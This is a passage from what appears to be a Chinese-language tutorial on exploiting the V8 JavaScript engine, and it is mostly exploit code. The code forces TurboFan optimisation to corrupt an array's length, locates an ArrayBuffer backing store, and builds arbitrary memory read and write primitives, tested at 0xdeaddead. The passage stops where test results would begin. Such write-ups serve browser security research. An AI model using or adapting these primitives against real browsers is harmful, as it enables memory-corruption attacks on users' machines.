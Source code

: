 ```
`}`
// 试着触发 turboFan，从而修改 JSArray 的 length
for(let i = 0; i &lt; 0x10000; i++)
    opt_me(1);
// 简单 checker
if(oob_arr[1023] == undefined)
    throw "OOB Fail!";
else
    log("[+] oob_arr.length == " + oob_arr.length);

/******* -- 任意地址读写原语 -- *******/
var array_buffer;
array_buffer = new ArrayBuffer(0x233);
data_view = new DataView(array_buffer);
backing_store_offset = -1;

// 确定backing_store_offset
for(let i = 0; i &lt; 0x400; i++)
`{`   
    // smi(0x233) == 0x0000023300000000
    if(Float64ToInt64(oob_arr[i]) == 0x0000023300000000)
    `{`
        backing_store_offset = i + 1;
        break;
    `}`
`}`
// 简单确认一下是否成功找到 backing_store
if(backing_store_offset == -1)
    throw "backing_store is not found!";
else
    log("[+] backing_store offset: " + backing_store_offset);

function read_8bytes(addr)
`{`
    oob_arr[backing_store_offset] = Int64ToFloat64(addr);
    return data_view.getBigInt64(0, true); // true 设置小端序
`}`
function write_8bytes(addr, data)
`{`
    oob_arr[backing_store_offset] = Int64ToFloat64(addr);
    data_view.setBigInt64(0, BigInt(data), true); // true 设置小端序
`}`

/******* -- try arbitrary read/write -- *******/
// 试着读取地址为 0xdeaddead 的内存
read_8bytes(0xdeaddead);
// 试着写入地址为 0xdeaddead 的内存
write_8bytes(0xdeaddead, 0x89abcdef);
```

测试结果如下：
